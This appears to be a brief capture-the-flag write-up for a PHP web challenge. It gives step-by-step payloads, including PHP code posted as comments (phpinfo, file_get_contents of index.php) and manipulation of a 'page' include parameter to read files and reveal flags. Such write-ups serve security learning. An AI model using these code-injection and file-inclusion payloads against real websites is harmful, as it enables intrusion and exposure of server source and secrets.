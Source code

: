 Test path accessiblity

```html
http://34.74.105.127/9ec2869b99/index.php
```

Create comment with body

```php
  <?php phpinfo() ?>
```
Submit to get a flag

By viewing page source found a path to admin login page

```html
  http://34.74.105.127/9ec2869b99/?page=admin.auth.inc
```

Try another value of page

```html
  http://34.74.105.127/9ec2869b99/?page=xx
```
An error message was received

```php
  Warning: include(xx.php): failed to open stream: No such file or directory
```
So the value of page is a filename without suffix

Keep on trying, seems subpath php.ini is accessible

```html
  http://34.74.105.127/9ec2869b99/php.ini
```

Try another possible file name

```html
  http://34.74.105.127/9ec2869b99/?page=admin.inc
```
It leads to a flag at the bottom of the response page


Comment with content

```php
  <?php echo file_get_contents('index.php');?>
```
Approve this comment in 'Pending Comments' page.

Visit home page via

```html
  http://34.74.105.127/9ec2869b99/?page=http://localhost/index
```

Found the 3rd flag in source code of ```index.php```
